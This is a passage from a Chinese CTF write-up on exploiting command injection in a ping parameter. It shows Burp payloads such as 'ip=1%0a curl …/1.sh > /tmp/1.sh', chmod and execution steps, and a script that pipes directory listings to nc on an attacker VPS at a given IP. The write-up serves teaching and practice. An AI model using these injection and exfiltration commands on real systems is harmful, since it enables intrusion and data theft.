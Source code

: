 ![2](https://gitee.com/zhl250/ctfwiki/raw/master/2.png)

发现ls虽然回显ping成功，但依然没有命令执行的回显

然后我就尝试了下重定向

![3](https://gitee.com/zhl250/ctfwiki/raw/master/3.png)

发现失败，我也不知道过滤了啥哈

下面就尝试反弹shell

得需要一个有公网IP的VPS

听师傅说也可以尝试内网穿虚拟机啊，只想白嫖的我尝试了内网穿透的免费通道，还是花了两块钱的注册费，结果隧道一直挂掉，后来发现稳定的隧道跟VPS价格其实差不多......所以说还是买个VPS吧

开始正题

打开vps，监听80端口，curl一下，发现是可以curl的

![4](https://gitee.com/zhl250/ctfwiki/raw/master/4.png)

接下来就是写shell了

i进行插入编写

vim 1.sh

ls / | nc 服务器公网IP 端口号

然后ESC , : ,wq保存退出

然后进行curl

服务器上对80端口开启http服务 python3 -m http.server 80

burp上ip=1%0a curl 121.41.31.114/1.sh > 1.sh

![5](https://gitee.com/zhl250/ctfwiki/raw/master/5.png)

发现失败了，试下改成/tmp/1.sh

![6](https://gitee.com/zhl250/ctfwiki/raw/master/6.png)

发现成功了

接下来将shell设置可执行的权限

ip=1%0a chmod 777 /tmp/1.sh

![7](https://gitee.com/zhl250/ctfwiki/raw/master/7.png)

下面就是执行shell了

vps监听上面shell里写的端口 nc -lvvn 端口号

burp上执行 ip=1%0a /bin/sh /tmp/1.sh

![8](https://gitee.com/zhl250/ctfwiki/raw/master/8.png)
